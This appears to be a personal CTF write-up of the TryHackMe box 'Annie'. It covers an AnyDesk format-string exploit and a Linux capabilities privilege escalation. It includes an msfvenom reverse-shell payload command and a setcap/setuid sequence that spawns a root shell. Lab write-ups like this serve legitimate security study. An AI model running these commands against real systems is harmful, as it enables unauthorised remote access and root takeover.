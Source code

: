 # Annie Helped-Through

Name: Annie
Date:  19/01/2023
Difficulty:  Medium
Goals:  
- Keep OSCP mindset and method
- Power through this brain fuzz flu with fun and community
- Concatenate my OSCP notes and my QBM for a better workflow, improving cpabablities and retention
- \*Bins usage for the red team
- Patch the vuln
- Write my Naabu script replacement for masscan in AutomateRecon
Learnt:
- C and Exploit basic expliot Dev revision
- Example of combining pieces of a privilege escalation
- Check the shebang on the python exploit.
Beyond Root:
- Patch the exploit

I decided to take a break from pretty much everything as this brain fuzz from this flu is still going to keep affecting me. Needed to think about my challanges and objectives for the year so the time helped. So I am here once again with Helped-Through just because I have felt at peak cognitively for like 4-5 weeks. Christmas was a good distraction from that, but life goes on. I also want to finish off [[Temple-Helped-Through]], [[Biblioteca-Helped-Through]] and [[Agent-T-Writeup]] along with [[Aratus-Helped-Through]] to round out some beyond root activities I need to do. Also I need to push my execise routine to higher than it was pre 2023 and these stream have the stream raiders segements to get up, stretch and pound out another straight one punch man plus extras.

## Recon

The time to live(TTL) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](TryHackMe/Markdown/Annie/Screenshots/ping.png)



Nmap finds AnyDesk Client. Presumptively I already `searchsploit`-ed and search engine dorked it, but the was not an idication of the exactness of the version from what I or the stream gather. [AnyDesk Client RCE](https://www.exploit-db.com/exploits/49613) leads to a detailed blog post. 

Al asks what [TCP Wrappers](https://en.wikipedia.org/wiki/TCP_Wrappers) is a host-based networking ACL system used to filter network access to TCP/IP Unix-like OSs thereby allowing the host or subnet information - IPs, names, ident query replies, to be used as tokens on which to filter for access control purposes. [Regrading how to bypass TCP Wrappers](https://security.stackexchange.com/questions/23407/how-to-bypass-tcpwrapped-with-nmap-scan) the [author of the SecWiki article](https://secwiki.org/w/FAQ_tcpwrapped) - *"When `nmap` ([[Nmap-Cheatsheet]]) labels something `tcpwrapped`, it means that the behavior of the port is consistent with one that is protected by tcpwrapper. Specifically, it means that a full TCP handshake was completed, but the remote host closed the connection without receiving any data. It is important to note that tcpwrapper protects _programs_, not ports. This means that a valid (not false-positive) `tcpwrapped` response indicates a real network service is available, but you are not on the list of hosts allowed to talk with it. When such a large number of ports are shown as `tcpwrapped`, it is unlikely that they represent real services, so the behavior probably means something else. What you are probably seeing is a network security device like a firewall or IPS. Many of these are configured to respond to TCP portscans, even for IP addresses which are not assigned to them. This behavior can slow down a port scan and cloud the results with false positives."
 

This was easy the only issue I would have had is figuring this out to be a python2 exploit when the code looks very python3. 

## Exploit

[AnyDesk Client RCE](https://www.exploit-db.com/exploits/49613) is format string vulnerability, which is using formatting of strings in functoin calls with a foprmat specifier  `"%s"`, which points to a  character array that is reference after the literal string `"string data here"`. These character arrays are terminated with a null byte to indicate that the string has ends. Basically you can use `printf` usign format strings that are point to parts of memory that can be used to dump memory it should not. Or with `scanf` write data to memory. `C` has a history of unsafe memory handling, there aer safer versions of functions that are still commonly referrenced in modern C tutorials and bootcamps. 

[Al read and explained the blog post](https://devel0pment.de/?p=1881), some takeways.
- Al points out this is ACTUALLY a UDP exploit from reading the script. - Read the script

The only change is required is the the shellcode. It failed and I orginally thought it was due to byte and string related pissues of the exploit and that it required modifying by seperating and converting the exploit code passed to the custom function into bytes prior to function call.
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.11.3.193 LPORT=4444 -b "\x00\x25\x26" -f python -v shellcode
```

Just scan the port indicated in the exploit... 
I write this because my solution was to gather data not enumerate the port first. This is has been an issue in the past. Adding this to a another goal of a CTF and my QBM. 


UDP scan:
- Only if a port is closed will RST packet be sent, if a firewall is in the way you will get alot of false positive

Remote Desktop Software will often use UDP for fast a possible data streaming.

Jumping around while tackling the issue rather than the linear linear 

It is also in python2...

## Foothold && PrivEsc

![1000](areyouokanniewiththatpython2exploit.png)

It is a combination of sticky bit on setcap
![](nogtfobins.png)
I remember this on many boxes seperately over the years and in combination
```bash
# Find setcap
find / -type f -perm -04000 -ls 2>/dev/null
# Check the capabilities on a linux system
getcap -r / 2>/dev/null
# copy a binary we control  
cp /usr/bin/python3 /tmp/python3
# give this binary the capabilites to setuid
setcap cap_setuid+ep python3
/usr/bin/python[ver] -c 'import os; os.setuid(0);os.system("/bin/bash")'
```

[Artical](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/) on how

![](wearenowroot.png)

## Beyond Root

I changed this beyond root to compile all of my previous musing over boxes thought and wrote for 30 minutes but problems with solving problems 